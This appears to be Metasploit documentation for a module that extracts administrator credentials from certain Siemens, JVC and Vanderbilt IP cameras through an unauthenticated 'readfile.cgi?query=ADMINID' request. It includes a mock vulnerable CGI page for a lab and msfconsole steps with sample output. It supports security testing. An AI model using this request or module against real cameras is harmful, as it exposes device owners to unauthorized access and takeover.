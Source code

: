 ## Description

  SIEMENS IP-Camera (CVMS2025-IR + CCMS2025), JVC IP-Camera (VN-T216VPRU),
  and Vanderbilt IP-Camera (CCPW3025-IR + CVMW3025-IR)
  allow an unauthenticated user to disclose the username & password by
  requesting the javascript page 'readfile.cgi?query=ADMINID'.
  Siemens firmwares affected: x.2.2.1798, CxMS2025_V2458_SP1, x.2.2.1798, x.2.2.1235

## Vulnerable Application

This module has been verified against the mock vulnerable page listed below.

### Mock Vulnerable Page

These instructions will create a cgi environment and a vulnerable perl application for exploitation.
Kali rolling (2019.1) was utilized for this tutorial, with apache.

#### Setup

1. Enable cgi: `a2enmod cgid`
2. `mkdir /var/www/html/cgi-bin`
3. Enable folder for cgi execution: add `ScriptAlias "/cgi-bin/" "/var/www/html/cgi-bin/"` to `/etc/apache2/sites-enabled/000-default.conf ` inside of the `VirtualHost` tags
4. Create the vulnerable page by writing the following text to `/var/www/html/cgi-bin/readfile.cgi`:

```
#!/usr/bin/perl
use CGI qw(:standard);
$query = new CGI;
print $query->header( -type=> "text/javascript"),
$query->import_names( 'Q' );
my $data = <<'DATA';
var Adm_ID="admin";
var Adm_Pass1="password";
var Language="en";
var Logoff_Time="0";
DATA
if ($Q::query == "ADMINID") {
  print $data;
}
```

## Verification Steps

1. Start msfconsole
2. ```use auxiliary/gather/ipcamera_password_disclosure```
3. ```set rhosts [rhosts]```
4. ```run```

## Scenarios

### Against the Mock page listed above

  ```
  msf > use auxiliary/gather/ipcamera_password_disclosure 
  msf auxiliary(gather/ipcamera_password_disclosure) > set rhosts 127.0.0.1
  rhosts => 127.0.0.1
  msf auxiliary(gather/ipcamera_password_disclosure) > run
  
  [+] Found: admin:password
  [*] Scanned 1 of 1 hosts (100% complete)
  [*] Auxiliary module execution completed
  ```
